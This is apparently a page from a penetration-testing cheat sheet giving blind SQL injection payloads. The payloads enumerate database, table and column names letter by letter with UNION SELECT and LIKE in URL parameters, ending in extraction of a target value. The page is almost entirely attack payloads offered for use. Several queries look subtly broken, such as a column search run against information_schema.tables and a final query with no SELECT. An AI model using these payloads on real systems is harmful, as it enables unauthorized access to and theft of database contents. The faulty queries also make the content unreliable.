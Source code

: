 ***

* Find the database name by iteration

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue' UNION SELECT $found where database() like '%';
</strong>#The value % will match anything true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'a%'; #Try a
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'b%'; #Try b
#Repeat with every letter until a value that gets true is found
$url/query?$column=$changedvalue' UNION SELECT $found where database() like '$lettera%';
#Make the same process for the next value
$url/query?$column=$changedvalue' UNION SELECT $found where database() LIKE '$letter$letter2a$%';
#Repeat until all DB names have been found
</code></pre>

{% hint style="info" %}
`$found` is the union value that has been caught in the previous step

`$letter` is the value which returns true in each iteration
{% endhint %}

***

* Find the table name by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name LIKE 'a%';
#Repeat until all table names are found
```
{% endcode %}

***

* Find the column by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE 'a%';
#Make an iterative process to find the column name
```
{% endcode %}

***

* Find the objective value

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' FROM $table_found WHERE %column_found LIKE 'a%';
#Make an iterative process to find the value needed
```
{% endcode %}

***
